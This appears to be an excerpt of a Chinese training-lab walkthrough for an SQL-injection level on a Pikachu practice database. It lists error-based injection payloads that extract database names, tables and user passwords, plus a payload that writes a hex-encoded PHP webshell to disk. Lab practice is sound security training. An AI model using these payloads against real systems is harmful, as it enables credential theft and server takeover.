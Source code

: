 ```php
uname=ele" and updatexml(1,concat(0x7e,substr((select group_concat(schema_name) from information_schema.schemata),1,31),0x7e),1)#&passwd=pass&submit=Submit
uname=ele" and updatexml(1,concat(0x7e,substr((select group_concat(schema_name) from information_schema.schemata),32,31),0x7e),1)#&passwd=pass&submit=Submit
uname=ele" and updatexml(1,concat(0x7e,substr((select group_concat(schema_name) from information_schema.schemata),63,31),0x7e),1)#&passwd=pass&submit=Submit
#获取pikachu数据库的所有表名称
uname=ele" and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema='pikachu'),1,31),0x7e),1)#&passwd=pass&submit=Submit
uname=ele" and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema='pikachu'),32,31),0x7e),1)#&passwd=pass&submit=Submit
#获取pikachu数据库users表的所有列名称
uname=ele" and updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users'),1,31),0x7e),1)#&passwd=pass&submit=Submit
#获取pikachu数据库users表的username和password列的所有值
uname=ele" and updatexml(1,concat(0x7e,substr((select group_concat(concat(username,'^',password)) from pikachu.users),1,31),0x7e),1)#&passwd=pass&submit=Submit
uname=ele" and updatexml(1,concat(0x7e,substr((select group_concat(concat(username,'^',password)) from pikachu.users),32,31),0x7e),1)#&passwd=pass&submit=Submit
uname=ele" and updatexml(1,concat(0x7e,substr((select group_concat(concat(username,'^',password)) from pikachu.users),63,31),0x7e),1)#&passwd=pass&submit=Submit
uname=ele" and updatexml(1,concat(0x7e,substr((select group_concat(concat(username,'^',password)) from pikachu.users),94,31),0x7e),1)#&passwd=pass&submit=Submit
```
写webshell的payload：
```php
uname=ele" or 1=1 limit 0,1 into outfile 'C:/less14.php' lines terminated by 0x3C3F7068702061737365727428245F504F53545B6C65737331345D293B3F3E#&passwd=pass&submit=Submit
```
本关代码与上一关的区别也仅在于闭合不同了。